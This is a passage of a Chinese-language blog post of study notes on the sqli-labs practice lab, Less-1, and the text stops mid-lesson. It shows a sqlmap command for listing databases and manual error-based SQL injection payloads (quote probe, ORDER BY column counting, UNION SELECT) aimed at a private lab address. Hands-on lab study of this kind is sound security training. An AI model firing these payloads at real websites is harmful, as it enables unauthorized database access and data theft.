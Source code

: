 ```yaml
---
title: sqli-labs_混合学习笔记less01-less04
categories:
- sql注入
tags:
- Unbantu
updated: 2018-05-07
---
```




 使用sqlmap进行注入的时候，确实是很方便，但是要是用不好的话，很多时候网站上都是有waf之类的，基本上很多站确定存在漏洞，但是只要是使用的话，全部都会被ban ip，所以现在重新用手工加部分sqlmap的方法进行注入学习。（手工还是要学习的，确定是跑不掉的。。。  要是有waf的话，需要更多的绕过技术。。。）

ps:     空格是%20        单引号%27            #是%23             双引号%22     等号 %3d

**sql-labs_less-1**（**GET – Error based – Single quotes – String** **基于错误的GET单引号字符型注入）**

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_01.png" />

先用sqlmap用一下，看下效果：（没waf当然很快啦...）

 `Sqlmap -u http://172.16.60.103/sql-labs/Less-1/?id=1 --dbs`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_02.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_03.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_04.png" />

手工：

`http://172.16.60.103/sql-labs/Less-1/?id=1%27`

加'之后报错：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_05.png" />

即存在漏洞

这个时候可以看下sql语句： `你的sql语句是：SELECT * FROM users WHERE id='1 order by 5 -- ' LIMIT 0,1` 

看到在id=''中，order by 在“中，所以要想猜字段的话，需要先将以前的语句进行闭合，闭合之后才可以继续猜解。（**ORDER BY 语句用于根据指定的列对结果集进行排序，而且是按照升序对记录进行排序**）

构造：`http://172.16.60.103/sql-labs/Less-1/?id=1' order by 5%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_06.png" />

这个时候有错误，然后依次尝试（其实可以使用数据结构中的二分法进行比较合适）

只有1，2，3是正常的，4的时候就开始出错了，显示结果超出。

使用select union语句：`http://172.16.60.103/sql-labs/Less-1/?id=1' union select 1,2,3%23`

页面并没有什么变化，这个时候只要将id=0，-1（非正数） 都行：
